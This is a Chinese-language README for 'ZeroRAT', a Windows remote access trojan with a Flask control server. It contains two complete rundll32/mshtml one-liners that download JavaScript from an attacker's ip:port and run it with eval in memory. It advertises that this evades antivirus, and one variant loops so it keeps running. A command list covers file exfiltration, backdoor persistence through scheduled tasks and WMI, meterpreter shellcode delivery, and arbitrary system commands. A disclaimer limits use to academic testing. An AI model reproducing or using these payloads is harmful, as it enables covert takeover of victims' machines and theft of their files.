 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<ip>:<port>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){window.close();}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： `http://<ip>:<port>/server/`

服务端支持的命令有

* `sessions`  列出活动的客户端
* `use <id>`  根据id选择客户端
* `set <key> <value>`    设置全局变量
* `show globals/downloads/uploads`  查看全局变量、客户端能下载的文件、客户端上传的文件
* `delete session`  删除当前客户端
* `delete download/upload <id>` 按照id删除文件
* `upfile`  上传文件到服务器，并添加到downloads列表
* `download`  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* `upload`  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器
* `backdoor tasks <time>`  利用windows任务计划留后门，时间格式为00：00
* `backdoor wmi`  利用wmi留后门，每一小时执行一次
* `meterpreter shellcode`  InstallUtil执行shellcode方式种meterpreter，需要先设置LHOST和LPORT(migrate之后才能继续接受命令，依赖.NET Framework 2.0)
* `meterpreter powershell`  Powershell方式种meterpreter(依赖powershell 1.0)

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

http://drops.wooyun.org/tips/8290

http://drops.wooyun.org/tips/12354

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

https://github.com/AlessandroZ/LaZagne

##免责声明
使用本工具请遵守当地法律，仅能用作学术测试使用，严禁非法控制他人计算机。如果造成损害，与作者无关。

##License
GPLV3

##TODO
* 完善命令
* 通信流量加密
